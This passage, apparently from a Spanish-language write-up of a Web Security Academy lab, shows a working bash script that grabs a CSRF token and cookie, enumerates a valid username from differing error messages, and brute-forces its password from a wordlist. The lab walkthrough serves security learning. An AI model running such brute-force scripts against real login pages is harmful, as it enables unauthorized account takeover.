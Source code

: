 Ejecutando el codigo obtenemos el usuario valido.

![run script](img8.png)

Ahora, agregamos el codigo suficiente para obtener la contraseña.

```bash
#!/bin/bash

URL='https://ac5f1f6e1e51c1a980554be900c700f2.web-security-academy.net/login'
NULL='/dev/null'

REQUEST1=`curl $URL -D- -s`
CSRF=`echo $REQUEST1 | grep -oP 'value=".*?"' | cut -d '"' -f 2`
COOKIE=`echo $REQUEST1 | grep -oP 'session=.*?;'`

for USER in `cat user.txt`;do
	DATA='csrf='$CSRF'&username='$USER'&password=a'
	RESULT=`curl $URL -d $DATA -b $COOKIE -s`
    
	if echo $RESULT | grep -F '<p class=is-warning>Invalid username or password.</p>' > $NULL
	then
		echo "Incorrect user: $USER"
	else
		echo "Valid user: $USER"
		break
	fi
done

for PASS in `cat password.txt`;do
        DATA='csrf='$CSRF'&username='$USER'&password='$PASS
        RESULT=`curl $URL -d $DATA -b $COOKIE -s`

        if echo $RESULT | grep -o "Invalid username or password" > $NULL
        then
                echo "Incorrect creds: $USER:$PASS"
        else
                echo "Valid creds: $USER:$PASS"
                break
        fi
done
```

Corremos el script y obtenemos las credenciales:

![run script](img9.png)
